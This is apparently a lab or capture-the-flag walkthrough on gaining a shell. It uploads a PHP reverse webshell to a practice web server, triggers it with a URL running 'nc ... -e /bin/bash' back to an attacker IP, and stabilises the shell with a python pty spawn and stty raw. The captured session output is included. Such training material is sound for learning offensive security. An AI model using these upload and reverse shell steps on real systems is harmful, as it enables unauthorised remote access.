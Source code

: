 1. Navigate to /usr/share/webshells/php/php-reverse-shell.php.
2. Make a copy of the supplied webshell on the attacking machine’s Desktop.

cp /usr/share/webshells/php/php-reverse-shell.php ./Desktop

1. Change the IP and port of the webshell to match the attacking machine’s IP with a custom port.

* vim ./Desktop/php-reverse-shell.php.
* Press i to enter insert mode.
* Change ip to 10.10.52.172.
* Press Escape to enter Command mode.
* Press :wq to save changes and exit file.

1. Set up a netcat listener on the attack machine.

nc -lvnp 1234

1. Upload webshell to target.

* Browse to http://10.10.62.10 from attacking machine.
* Click ‘Browse’ button.
* Navigate to /root/Desktop/php-reverse-shell.php.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.

1. Execute webshell on target.

* Amend URL to http://10.10.62.10/uploads/php-reverse-shell.php?cmd=nc 10.10.52.172 1234 -e /bin/bash.
* Reverse shell creates session back to listener.

Connection from 10.10.62.10 34914 received!

Linux linux-shell-practice 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86\_64 x86\_64 x86\_64 GNU/Linux

20:28:01 up 10 min, 0 users, load average: 0.00, 0.20, 0.25

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0 can't access tty: job control turned off

#### **Extra: stabilise the netcat shell** <a href="#siu9d6ofcho6" id="siu9d6ofcho6"></a>

python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

* Background the shell using Ctrl+Z

stty raw -echo; fg

Log into the Linux machine over SSH using the supplied credentials. Use the techniques in the Common Shell Payloads section to experiment with bind and reverse netcat shells.

**Create reverse shell on target host and execute the bash process upon connection.**

nc 10.10.52.172 1234 -e /bin/bash
